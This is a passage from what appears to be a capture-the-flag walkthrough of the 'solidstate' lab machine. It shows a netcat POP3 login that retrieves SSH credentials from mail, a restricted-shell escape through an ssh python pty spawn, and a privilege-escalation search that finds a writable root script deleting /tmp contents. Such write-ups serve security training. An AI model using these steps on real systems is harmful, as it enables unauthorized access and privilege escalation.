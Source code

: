 ##### login JAMES pop3d

and then use the new password to login JAMES pop3d which port is 110, and view the email.
after login, and then retr the email, we can get the ssh username and password.

```bash
nc -nv 172.16.33.35 110 -C

+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user mindy
+OK
pass 123
+OK Welcome mindy

list
+OK 2 1945
1 1109
2 836

retr 2
+OK Message follows
username: mindy
pass: P@55W0rd1!2@
```

##### rbash bypass

```bash
ssh mindy@172.16.33.35 "export TERM=xterm; python -c 'import pty; pty.spawn(\"/bin/bash\")'"
```

### priviledge escalation

#### information gathering

```bash
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)

sudo -l
bash: sudo: command not found

uname -a
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686 GNU/Linux

find / -type f -user root -perm -o=w 2>/dev/null | grep -v 'proc\|sys'
/opt/tmp.py

cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```
